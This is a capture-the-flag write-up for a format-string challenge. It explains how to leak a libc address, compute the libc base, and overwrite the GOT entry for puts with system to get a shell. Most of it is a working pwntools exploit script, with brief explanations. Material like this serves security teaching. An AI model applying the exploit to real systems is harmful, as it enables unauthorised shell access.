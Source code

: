 From the source code 
```c
char *normal_string = "/bin/sh";
```

So it is clear we have to execute this command and get the root shell access and then find the file that contains the flag.

`system()` method is used to execute builtin from within `c`

This method is present in `libc` binary file

```c
puts(normal_string);
```

We can use format string to execute system() instead of puts() with the above argument

```python
from pwn import *

context(arch="amd64", os="linux")
elf = ELF("./format-string-3") 
libc = ELF("./libc.so.6")

r = remote("pico instance here")

r.recvuntil(b": 0x") 
```

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f91ff65e3f0
```

```python
aslred_setvbuf = r.recv(12) #The address of setvbuf in the process
static_setvbuf = libc.sym.setvbuf #The address of setvbuf in the libc binary which is constant
```
```python
aslred_setvbuf = int(aslred_setvbuf, 16) 
libc.address = aslred_setvbuf - static_setvbuf 
#If setvbuf is at 0x7ffff7e02a00 and its offset in libc is 0x02a00, then the
#base address of libc is 0x7ffff7e02a00 - 0x02a00 = 0x7ffff7e00000
#This sets the offset of libc in the above libc variable

#38 is the offset at which the format string is stored in the stack. I used gdb to find that (We can also your pwntools to find offset by using the offset function)
r.sendline(fmtstr_payload(38, {elf.got['puts']: libc.sym['system']}))
# constructs a format string payload which replaces the address of puts to system in the got table
r.interactive()
```

The got table is the Global offset table. It is a data structure used in dynamically linked programs to facilitate the resolution of offsets. It stores the address of external functions linked via a linker script

In this problem we are simply changing the address of puts in the GOT table to system

By calling the system function with arguments `/bin/sh`. It starts a shell with root shell. 
After we get the root shell we can just navigate to where the flag file is and then just read it

![](./sc/sc10.png)

